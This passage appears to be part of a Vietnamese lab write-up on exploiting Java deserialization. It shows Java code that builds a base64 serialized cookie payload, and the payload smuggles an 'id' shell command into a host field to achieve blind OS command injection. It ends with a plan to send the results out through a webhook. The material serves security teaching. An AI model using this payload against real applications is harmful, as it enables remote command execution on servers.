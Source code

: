 ```java 
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);

            objectOutputStream.writeObject(payloadObject);
            objectOutputStream.close();

            byte[] serializedBytes = byteArrayOutputStream.toByteArray();
            String base64Payload = Base64.getEncoder().encodeToString(serializedBytes);

            // Bước 4: In ra kết quả cuối cùng
            System.out.println("\n--- Done! ---");
            System.out.println("Cookie Level 2:");
            System.out.println("======================================================================");
            System.out.println(base64Payload);
            System.out.println("======================================================================");

        } catch (Exception e) {
            System.err.println("Error!");
            e.printStackTrace();
        }
    }
}
```

![image](https://hackmd.io/_uploads/ryNb8phTgl.png)

Thành công gen ra được cookie payload : `rO0ABXNyAChjb20uZXhhbXBsZS5qYXZhZGVzZXJpYWxpemUuTXlIVFRQQ2xpZW50xxgQsBtC2FUCAAFMAARob3N0dAASTGphdmEvbGFuZy9TdHJpbmc7eHIAKmNvbS5leGFtcGxlLmphdmFkZXNlcmlhbGl6ZS5IVFRQQ29ubmVjdGlvbjaZ6lLJoIWoAgABTAADdXJscQB+AAF4cHQAD2h0dHA6Ly94eHh4OyBpZHQACHh4eHg7IGlk`

![image](https://hackmd.io/_uploads/B1-EI626ll.png)

Tiến hành inject cookie mới vào xem thử kết quả sẽ trả về như thế nào.

![image](https://hackmd.io/_uploads/Bk3BLa2pge.png)

Kết quả có vẻ không như mong muốn có vẻ như ta đã làm sai ở một bước nào đó bây giờ kiểm tra lại code đoạn thực hiện deserialize vì lỗi này nó nằm ở catch của phần deserialize.

![image](https://hackmd.io/_uploads/r1A6La36xe.png)

Để ý rằng ở đây có vẻ như cookie bị ép kiểu thành user nên có vẻ chính nó đã gây lỗi ở phần cookie nên nó trả về exception. Nhưng liệu trước khi chạm đến phần deserialize thì liệu nó đã thực thi OS Command chưa bây giờ ta sẽ thử Debug.

![image](https://hackmd.io/_uploads/B1kytp26gl.png)

Ta có thể thấy rằng giá trị của this.host đã được gán và thực thi vậy ở đây ta có thể kết luận là blind OS Command Injection bây giờ ta có 3 cách đó là đưa kết quả ra ngoài , error based và time based ta sẽ chọn cách đưa kết quả ra ngoài bằng webhook cho dễ.
